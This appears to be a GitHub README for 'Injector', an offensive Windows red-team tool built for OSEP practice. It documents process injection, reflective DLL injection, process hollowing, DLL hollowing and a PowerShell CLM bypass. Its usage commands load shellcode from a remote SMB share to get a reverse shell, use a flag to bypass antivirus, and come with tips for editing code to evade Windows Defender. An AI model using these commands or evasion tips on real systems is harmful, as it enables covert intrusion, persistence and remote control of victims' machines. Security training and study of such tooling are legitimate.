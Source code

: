# Injector
Complete Arsenal of Memory injection and other techniques for red-teaming in Windows

# What does Injector do?

- Process injection support for shellcode located at remote server as well as local storage. Just specify the shellcode file and it will do the rest. It will by default inject into notepad.exe and if not found, it will create a notepad process and inject into it for persistence.
- Reflective DLL Injection for DLL injection. It downloads the DLL and injects into remote process.
- Process hollowing via svchosts.exe
- With -bypass flag it tends to use more advanced un-documented API for process injeciton and the routine itself gets changes.
- Now even supports encrypted shellcode i.e AES encrypted and Xor encryted shellcode are now supported. To encrypt the shellcode use Helper.exe in order to maintain consistency.  
- Supports CLM bypass for powershell. Just drop it to a whitelisted folder where you can execute C# binary, for instance at C:\\Windows\\Tasks
- Now comes with support for DLL Hollowing. DLL hollowing is implemented via the dll_hollow.dll! So in case you end up using this mode, make sure the dll and the exe are in same place.

```
C:\Users\admin>Injector.exe
Help Options for Xenon:
-m       Mode of operation
        -m 1     Specifies the mode as Process injection
        -m 2     Specifies the mode as Reflective DLL Injection
        -m 3     Specifies the mode as Process Hollowing
        -m 4     No injection! Give me my damn shell
        -m 5     Powershell session via CLM bypass
        -m 6     DLL hollowing

-TempFile        File location that your current user can read
-shellcode       Use shellcode
-dll     Use dll
-decrypt-xor     Specify Xor decryption for shellcode
         -pass   Specifty the password for Xor decryption
-decrypt-aes     Specify aes decryption for shellcode
         -pass   Specifty the password for aes decryption
-location        Specify the location i.e either server or local
-bypass         Uses enhance attempts to bypass AV
```
To generate encrypted shellcode, use Helper.exe on kali along with proper switch.

### Example of usage

```
Injector.exe -m=1 -shellcode -encrypt-aes -pass=password -location="\\192.x.x.x\share\shellcode.txt" -bypass
```
This is will decrypt your shellcode and give you reverse shell. Presence of bypass flag instructs injector to use some other ways to get reverse shell i.e using some undocumented Win API.

In case you dont wanna use encrypted shellcode, you can also run it simply like below

```
Injector.exe -m=1 -shellcode -location="\\192.x.x.x\share\shellcode.txt"
```
Just change the -m=1 to 2,3,4,6 to run other modes. 

```
Injector.exe -m=5 -TempFile=C:\\Users\\user\\sample.txt
```
This will give you a session where you can execute IEX cradle and get a proper reverse shell hence bypassing CLM.

## Help me with Antivirus?

A specific function called basic_rev in Program.cs of Injector triggers windows defender. It is advised to edit the function and remove the WaitForSingleObject line which will end up making that whole module useless but helps to bypass defender on Windows. Why to use a basic reverse shell mode when advance modes will give you persistence and help evade defender better :)

# Why make it?

Main aim is to help me in OSEP :P

# Talk to me?

Shoot me a DM on twitter @gh0st_R1d3r_0x9 to talk abt more interesting indeas/modules that can make this more amazing!

Current module in pipeline
- Phantom DLL Injection

# Acknowledgements

[Ired Team](https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection)
